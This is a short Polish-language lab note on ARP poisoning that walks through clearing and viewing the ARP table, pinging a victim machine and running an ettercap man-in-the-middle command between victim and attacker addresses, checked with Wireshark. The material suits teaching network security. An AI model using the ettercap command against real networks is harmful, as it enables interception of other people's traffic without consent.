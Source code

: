 # ARP Poissoning

### Na początku usuwamy adresy z tablicy ARP
```
arp -d <ip>
```

### Wyświetlamy tablicę ARP
```
arp -a
```

### Pingujemy ofiarę z atakującym, dzięki czemu maszyny uzyskują swoje adresy MAC. Za pomocą programu Wireshark można sprawdzić jak wygląda wymiana pakietów (ARP Request oraz ARP Reply).

### Ponownie sprawdzamy tablicę ARP - na tablicy pojawią się adresy pingowanych maszyn.

### Jeżeli maszyna C (firewall) jest stosowana podczas testów to maszyna C będzie w stanie podsłuchiwać ruch sieciowy.

### Teraz uruchamiamy ettercap
```
ettercap -Tq -M arp /ip ofiary// /ip atakującego//
```

### Po uruchomieniu ataku, za pomocą Wiresharka możemy zauważyć podwojoną ilość wysyłanych pakietów podczas pingowania ponieważ część pakietów trafia do podsłuchu.

